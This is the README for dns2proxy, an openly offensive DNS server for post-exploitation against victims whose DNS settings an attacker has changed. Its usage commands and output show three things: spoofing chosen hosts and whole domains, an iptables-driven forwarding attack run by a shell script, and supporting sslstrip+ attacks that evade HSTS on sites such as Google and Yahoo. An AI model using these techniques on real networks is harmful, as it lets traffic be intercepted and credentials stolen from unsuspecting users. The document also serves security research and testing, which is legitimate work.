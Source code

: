 dns2proxy  
=========  
  
Offensive DNS server  
  
This tools offer a different features for post-explotation once you change the DNS server to a Victim.  
  
Feature 1  
---------  
  
Traditional DNS Spoof adding to the response the original IP address.  
  
Using spoof.cfg file:  
  
   hostname ip.ip.ip.ip  
  
>root@kali:~/dns2proxy# echo "www.s21sec.com 1.1.1.1" > spoof.cfg  
>  
>// launch in another terminal dns2proxy.py  
>  
>root@kali:~/dns2proxy# nslookup www.s21sec.com 127.0.0.1  
>Server:         127.0.0.1  
>Address:        127.0.0.1#53  
>  
>Name:   www.s21sec.com  
>Address: 1.1.1.1  
>Name:   www.s21sec.com  
>Address: 88.84.64.30  
  
  
or you can use domains.cfg file to spoof all host of a same domain:  
  
>root@kali:~/demoBH/dns2proxy# cat dominios.cfg  
>.domain.com 192.168.1.1  
>  
>root@kali:~/demoBH/dns2proxy# nslookup aaaa.domain.com 127.0.0.1  
>Server:         127.0.0.1  
>Address:        127.0.0.1#53  
>  
>Name:   aaaa.domain.com  
>Address: 192.168.1.1  
 
Hostnames at nospoof.cfg will no be spoofed.  
  
Feature 2  
---------  
  
This feature implements the attack of DNS spoofing adding 2 IP address at the top of the resolution and configuring the system to forward the connections.  
Check my slides at BlackHat Asia 2014 [OFFENSIVE: EXPLOITING DNS SERVERS CHANGES] (http://www.slideshare.net/Fatuo__/offensive-exploiting-dns-servers-changes-blackhat-asia-2014) and the [Demo Video] (http://www.youtube.com/watch?v=cJtbxX1HS5I).    
  
To launch this attach there is a shellscript that automatically configure the system using IP tables. You must edit this file to adapt it to your system. DON´T FORGET AdminIP variable!!!!  
Both IPs must be at the same system to let dns2proxy.py configurate the forwarding  
  
Usage: ia.sh < interface > [ip1] [ip2]   
  
  
>root@kali:~/dns2proxy# ./ia.sh eth0 172.16.48.128 172.16.48.230  
>Non spoofing imap.gmail.com  
>Non spoofing mail.s21sec.com  
>Non spoofing www.google.com  
>Non spoofing www.apple.com  
>Non spoofing ccgenerals.ms19.gamespy.com  
>Non spoofing master.gamespy.com  
>Non spoofing gpcm.gamespy.com  
>Non spoofing launch.gamespyarcade.com  
>Non spoofing peerchat.gamespy.com  
>Non spoofing gamestats.gamespy.com  
>Specific host spoofing www.s21sec.com with 1.1.1.1  
>Specific domain IP .domain.com with 192.168.1.1  
>binded to UDP port 53.  
>waiting requests.  
>Starting sniffing in (eth0 = 172.16.48.128)....  
>  
>< at other terminal >  
>  
>root@kali:~/dns2proxy# nslookup www.microsoft.com 127.0.0.1  
>Server:         127.0.0.1  
>Address:        127.0.0.1#53  
>  
>Name:   www.microsoft.com  
>Address: 172.16.48.128  
>Name:   www.microsoft.com  
>Address: 172.16.48.230  
>Name:   www.microsoft.com  
>Address: 65.55.57.27  
  
  
The fhtang.sh script will terminate the program and restore normal iptables.  
  
Hostnames at nospoof.cfg will no be spoofed.  
  
  
Feature 3  
---------  
  
Automatically the dns server detects and correct the changes thats my sslstrip+ do to the hostnames to avoid HSTS, so will response properly.  
  
This server is necesary to make the sslstrip+ attack.  
  
>root@kali:~/dns2proxy# nslookup webaccounts.google.com 127.0.0.1    <-- DNS response like accounts.google.com  
>Server:         127.0.0.1  
>Address:        127.0.0.1#53  
>  
>Name:   webaccounts.google.com  
>Address: 172.16.48.128  
>Name:   webaccounts.google.com  
>Address: 172.16.48.230  
>Name:   webaccounts.google.com  
>Address: 74.125.200.84  
>  
>root@kali:~/dns2proxy# nslookup wwww.yahoo.com 127.0.0.1            <-- Take care of the 4 w! DNS response like  
>Server:         127.0.0.1                                                     www.yahoo.com  
>Address:        127.0.0.1#53  
>  
>Name:   wwww.yahoo.com  
>Address: 172.16.48.128  
>Name:   wwww.yahoo.com  
>Address: 172.16.48.230  
>Name:   wwww.yahoo.com  
>Address: 68.142.243.179  
>Name:   wwww.yahoo.com  
>Address: 68.180.206.184  
  
  
Instalation  
-----------  
  
Python 2.6 and dnspython (www.dnspython.com) is needed.  
